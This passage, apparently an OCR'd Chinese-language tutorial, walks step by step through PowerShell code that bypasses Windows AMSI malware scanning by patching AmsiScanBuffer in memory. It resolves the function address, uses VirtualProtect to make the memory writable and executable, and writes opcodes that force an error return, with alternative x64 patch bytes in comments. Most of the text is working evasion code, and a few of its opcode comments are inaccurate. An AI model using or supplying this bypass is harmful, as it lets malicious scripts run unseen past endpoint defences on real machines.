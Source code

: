         [IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, 'AmsiScanBuffer')
        if ($BufferAddress -eq [IntPtr]::Zero) { Write-Error "Failed to get address for AmsiScanBuffer"; return }
        ```
        
    4. **修改内存保护 (`VirtualProtect`)**:
        
        PowerShell
        
        ```
        [UIntPtr]$Size = [UIntPtr]0x5 # 要修改的字节数 (取决于补丁代码长度)
        [UInt32]$ProtectFlag = 0x40   # PAGE_EXECUTE_READWRITE
        [UInt32]$OldProtectFlag = 0
        if (-not ([Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [ref]$OldProtectFlag))) {
            Write-Error "VirtualProtect failed. Error: $([System.Runtime.InteropServices.Marshal]::GetLastWin32Error())"
            return
        }
        ```
        
    5. **准备并写入补丁操作码**: 目标是让 `AmsiScanBuffer` 函数立即返回一个表示“干净”或“错误/无法扫描”的值。原文提供的操作码 `0xB8,0x57,0x00,0x07,0x80,0xC3` 对应汇编指令： `MOV EAX, 0x80070057` (将 `E_INVALIDARG` - 无效参数错误码载入 EAX) `RET` (返回) 这个错误码通常会被 AMSI 调用者解释为扫描未能成功进行或内容无效，从而可能间接导致内容被放行。
        
        PowerShell
        
        ```
        # Opcode for: mov eax, 0x80070057; ret (for x86)
        # For x64, it would typically be: mov rax, <some_value>; ret
        # The provided opcodes are for x86. If PowerShell is x64, this patch might not work correctly or crash.
        # A common x64 patch for returning AMSI_RESULT_CLEAN (0) might be:
        # xor rax, rax; ret  (48 31 C0 C3)
        # or mov rax, 1; ret (B8 01 00 00 00 C3) for AMSI_RESULT_NOT_DETECTED
        # The example uses:
        $buf = [Byte[]](0xB8,0x57,0x00,0x07,0x80,0xC3) # MOV EAX, 0x80070057; RET
        
        [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $BufferAddress, $buf.Length)
        ```
        
